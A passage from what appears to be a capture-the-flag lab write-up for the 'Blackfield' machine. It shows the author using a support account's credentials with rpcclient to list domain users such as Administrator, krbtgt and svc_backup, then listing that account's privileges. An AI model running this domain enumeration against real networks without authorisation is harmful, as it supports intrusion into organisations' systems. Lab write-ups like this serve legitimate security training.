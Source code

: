### [](#header-3)Rpcclient

I was able to use the creds for the support account and log in with the rpcclient. Then I ran the command, enumdomusers, to get alist of all usernames on the domain.The list was huge, because it was so many users on the domain. Here is the users that I found more interesting, probably more privileged users.

```
rpcclient -U support 10.10.10.192
```

```
enumdomusers
```

```
user:[Administrator] rid:[0x1f4]
user:[Guest] rid:[0x1f5]
user:[krbtgt] rid:[0x1f6]
user:[audit2020] rid:[0x44f]
user:[support] rid:[0x450]
user:[svc_backup] rid:[0x585]
user:[lydericlefebvre] rid:[0x586]
```

I added the users to another file, privusers.txt.

![](Pictures/Blackfield/privusers.png)

The account I am using with rpcclient is named support. What I read online is that accounts that is used by IT, helpdesk, supportetc often have some administrative privileges. What I could see from the privileges on the account support, this might be the caseeven here.

```
enumprivs
```

```
found 35 
privilegesSeCreateTokenPrivilege          0:2 (0x0:0x2)
SeAssignPrimaryTokenPrivilege           0:3 (0x0:0x3)
SeLockMemoryPrivilege           0:4 (0x0:0x4)
SeIncreaseQuotaPrivilege                0:5 (0x0:0x5)
SeMachineAccountPrivilege               0:6 (0x0:0x6)
SeTcbPrivilege          0:7 (0x0:0x7)
SeSecurityPrivilege             0:8 (0x0:0x8)
SeTakeOwnershipPrivilege                0:9 (0x0:0x9)
SeLoadDriverPrivilege           0:10 (0x0:0xa)
SeSystemProfilePrivilege                0:11 (0x0:0xb)
SeSystemtimePrivilege           0:12 (0x0:0xc)
SeProfileSingleProcessPrivilege                 0:13 (0x0:0xd)
SeIncreaseBasePriorityPrivilege                 0:14 (0x0:0xe)
SeCreatePagefilePrivilege               0:15 (0x0:0xf)
SeCreatePermanentPrivilege              0:16 (0x0:0x10)
SeBackupPrivilege               0:17 (0x0:0x11)
SeRestorePrivilege              0:18 (0x0:0x12)
SeShutdownPrivilege             0:19 (0x0:0x13)
SeDebugPrivilege                0:20 (0x0:0x14)
SeAuditPrivilege                0:21 (0x0:0x15)
SeSystemEnvironmentPrivilege            0:22 (0x0:0x16)
SeChangeNotifyPrivilege                 0:23 (0x0:0x17)
```